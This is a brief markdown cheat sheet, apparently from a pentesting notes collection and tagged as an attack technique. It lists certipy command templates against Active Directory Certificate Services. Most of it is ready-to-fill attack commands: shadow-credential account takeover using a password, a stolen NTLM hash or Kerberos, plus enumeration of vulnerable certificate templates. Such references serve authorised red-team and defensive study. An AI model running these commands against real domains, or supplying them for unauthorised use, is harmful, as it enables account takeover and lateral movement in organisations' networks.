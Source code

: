 # certipy
#plateform/linux #target/remote #cat/ATTACK

## Shadow cred
```
certipy shadow auto -u '<user>'@<domain> -p '<passwd>' -account '<target_user>'
```

## Shadow cred [Hash]
```
certipy shadow auto -u '<user>'@<domain> -hashes '<hash>' -account '<target_user>'
```

## Shadow cred using kerberos
```
certipy shadow auto -u '<user>'@<domain> -p '<passwd>' -account '<target_user>' -k -target <target>
```

## Enumerate vulnerable certificate templates
```
certipy find -vulnerable -u '<user>'@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```

## Enumerate enabled certificate templates
```
certipy find -enabled -u '<user>'@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```
